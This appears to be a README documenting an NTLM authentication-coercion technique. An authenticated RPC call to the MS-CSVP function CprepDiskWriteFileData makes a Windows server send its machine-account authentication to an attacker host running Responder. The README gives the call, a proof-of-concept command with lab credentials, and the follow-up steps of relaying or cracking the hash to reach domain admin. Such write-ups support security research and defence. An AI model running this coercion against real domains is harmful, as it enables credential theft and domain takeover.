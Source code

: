 # MS-CSVP - Remote call to CprepDiskWriteFileData (opnum 17)

## Summary

+ **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

+ **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CprepDiskWriteFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/50f09d78-a191-44ac-8e59-62b9fe7c005e)

+ **Function operation number**: `17`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepDiskWriteFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/50f09d78-a191-44ac-8e59-62b9fe7c005e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepDiskWriteFileData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepDiskWriteFileData(
   [in] CPREP_DISKID DiskId,
   [in] unsigned long ulPartition,
   [in, string] wchar_t* FileName,
   [in] unsigned long cbDataIn,
   [in, size_is(cbDataIn)] byte* DataIn
 );
```

## References

+ Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

+ Documentation of function `CprepDiskWriteFileData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/50f09d78-a191-44ac-8e59-62b9fe7c005e